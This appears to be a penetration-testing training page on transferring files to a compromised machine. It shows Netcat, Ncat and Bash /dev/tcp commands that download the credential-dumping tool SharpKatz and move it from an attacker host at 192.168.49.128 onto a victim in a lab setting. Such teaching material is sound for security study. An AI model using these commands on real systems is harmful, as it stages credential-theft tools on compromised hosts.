 The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target. Let's create an example and transfer a tool to our target.

In this example, we'll transfer [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) from our Pwnbox onto the compromised machine. We'll do it using two methods. Let's work through the first one.

We'll first start Netcat (`nc`) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_\(stdin\)) using a single greater-than `>` followed by the filename, `SharpKatz.exe`.

#### NetCat - Compromised Machine - Listening on Port 8000

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```
If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat - Compromised Machine - Listening on Port 8000


```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine

  Miscellaneous File Transfer Methods

```shell-session
pepedavidphone@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
pepedavidphone@htb[/htb]$ # Example using Original Netcat
pepedavidphone@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine

 

```shell-session
pepedavidphone@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
pepedavidphone@htb[/htb]$ # Example using Ncat
pepedavidphone@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

#### Attack Host - Sending File as Input to Netcat 

```shell-session
pepedavidphone@htb[/htb]$ # Example using Original Netcat
pepedavidphone@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File


```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

#### Attack Host - Sending File as Input to Ncat

```shell-session
pepedavidphone@htb[/htb]$ # Example using Ncat
pepedavidphone@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

#### NetCat - Sending File as Input to Netcat

```shell-session
pepedavidphone@htb[/htb]$ # Example using Original Netcat
pepedavidphone@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Ncat

```shell-session
pepedavidphone@htb[/htb]$ # Example using Ncat
pepedavidphone@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```